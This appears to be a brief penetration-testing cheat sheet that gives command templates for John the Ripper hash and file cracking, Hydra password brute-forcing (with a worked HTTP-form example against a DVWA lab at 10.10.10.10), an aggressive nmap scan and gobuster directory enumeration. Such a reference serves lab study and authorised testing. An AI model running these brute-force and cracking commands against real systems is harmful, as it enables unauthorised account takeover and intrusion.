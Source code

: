 # <p align=center>John The Ripper</p>

### Bruteforce File
```
john --wordlist=[WORDLIST] [FILE]
```
### Show Format List
```
john --list=formats
```
### Bruteforce Hash
```
john --formats=[HASH] [FILE]
```

# <p align=center>Hydra</p>

### Bruteforce Password
```
hydra -V -l [USERNAME] -P [WORDLIST] [IP VICTIM] [PROTOCOL]
```
### Bruteforce Via HTTP
```
hydra -V -l [USERNAME] -P [WORDLIST] [IP VICTIM] http-[REQUEST METHOD]-form "[PATH]:[REQUEST BODY]:[INCORRECT ALERT]"
```
Example :
```
hydra -V -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-get-form "/DVWA/vulnerabilities/brute:username=admin&password=^PASS^:Username and/or password incorrect."
```

# <p align=center>NMAP</p>

### Aggresive & Verbose Scan
```
nmap -v -A [IP]  
```

# <p align=center>Gobuster</p>

### Directory Enumeration
```
gobuster dir -u [URL] -w [WORDLIST] 
```
